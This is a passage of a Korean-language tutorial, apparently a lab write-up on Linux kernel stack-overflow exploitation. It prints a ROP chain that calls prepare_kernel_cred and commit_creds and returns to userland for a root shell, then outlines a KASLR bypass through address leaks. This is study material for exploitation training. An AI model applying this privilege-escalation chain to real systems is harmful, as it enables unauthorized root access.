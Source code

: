 위와 같이 실행됨을 알 수 있다. 이를 통해

1. `swapgs_restore_regs_and_return_to_usermode+16` 으로 jmp해야 함 (쓸데없는 `pop` 건너뛰기)
2. `dummy(rax) | dummy (rdi) | retaddr | cs | rflags | rsp | ss`처럼 stack을 구성해야 함

을 알 수 있다. 이를 통해 다음과 같은 payload를 구성할 수 있다.

```python
  *chain++ = pop_rdi_ret;
  *chain++ = 0;
  *chain++ = prepare_kernel_cred;
  *chain++ = pop_rcx_ret;
  *chain++ = 0;
  *chain++ = mov_rax_rdi_ret;
  *chain++ = commit_creds;
  *chain++ = swapgs_restore_regs_and_return_to_usermode;
  *chain++ = 0xcafebebe;
  *chain++ = 0xdeadbeef;
  *chain++ = win;
  *chain++ = user_cs;
  *chain++ = user_rflags;
  *chain++ = user_rsp;
  *chain++ = user_ss;
```

전체 exploit 코드는 다음과 같다.

<details><summary>펼치기/접기</summary></details>

실행하면 쉘을 얻을 수 있다.

<p align="center">
  <img src="/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/win_3.png">
</p>

# 4. +SMEP, +KPTI, +KASLR

KASLR이 활성화되면 위에서 찾은 가젯과 함수들의 주소를 마음대로 사용할 수 없고, 커널이 mapping된 base 주소를 알아야 사용할 수 있다. base 주소는 위에서 논의한 `main()`의 스택 구조로부터 retaddr이 커널 주소 어딘가라는 것을 고려하면 알아낼 수 있다.[^2]
이를 통해 `main()`의 return address와 커널 베이스간의 offset을 계산하면 다음과 같은 결과를 얻는다.

![kaslr_leak.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/kaslr_leak.png)

![offsetcalc.png](/assets/images/posts_img/kernel/kernel-exploit-tech/lk01-stack-overflow/offsetcalc.png)


[^1]: extract-vmlinux, ROPgadget을 사용했다. 이들의 사용법은 별도의 문서에 정리해 두었다.
[^2]: 전에 만들어 둔 offsetcalc.py를 사용했다. 이 역시도 별도의 문서에 정리해 두었다.